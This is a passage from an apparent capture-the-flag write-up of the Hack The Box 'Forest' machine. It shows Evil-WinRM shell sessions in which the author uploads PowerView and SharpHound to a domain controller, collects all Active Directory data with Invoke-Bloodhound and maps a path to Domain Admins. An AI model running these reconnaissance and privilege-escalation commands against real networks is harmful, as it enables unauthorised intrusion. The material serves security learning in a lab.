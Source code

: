 ```shell

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type ..\Desktop\user.txt
368cfa08************************
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

Which we definitely can.

## Privesc to Administrator

Since the box is called Forest, I don't anticipate needing to run [winPEAS](https://github.com/carlospolop/PEASS-ng), although I normally would. In this case, I'm going to jump straight to Bloodhound, a tool that can map out relationships in an Active Directory environment to advise us as to what to do next. 
- Install bloodhound and neo4j: `sudo apt install bloodhound neo4j`
- Download PowerView: [[link](https://github.com/PowerShellMafia/PowerSploit)]

I'm going to copy `SharpHound.ps1` and `PowerView.ps1` to the DC using `evil-winrm`'s built in upload and download command:
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload ./www/PowerView.ps1 .
Info: Uploading ./www/PowerView.ps1 to .                                      
Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload ./www/SharpHound.ps1 .
Info: Uploading ./www/SharpHound.ps1 to .                                         
Data: 1298980 bytes of 1298980 bytes copied

Info: Upload successful!
```

Once I've uploaded both powershell modules, I'll import them by doing `. .\SharpHound.ps1` and `. .\PowerView.ps1`. It might look weird, but this way of doing it has always been most consistent for me.

On my Kali machine, I'm going to start bloodhound by running `bloodhound`, and start the `neo4j` database using `sudo neo4j console`. I'll sign in as needed.

After that's taken care of, I'll run the following command on the DC:
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-Bloodhound -CollectionMethod All -Domain htb.local -ZipFileName lootme.zip
```

This will allow me to collect all of the Active Directory data that this service account has to offer. I'll download the zip file that comes off of it, and drag and drop it right into Bloodhound. After that's unzipped and loaded in, I'll mark `svc-alfresco` as "owned" and look for "Shortest Path to Domain Admins".

![[Pasted image 20210903163250.png]]

*Your path might look different than mine, but these privesc steps are all the same.*
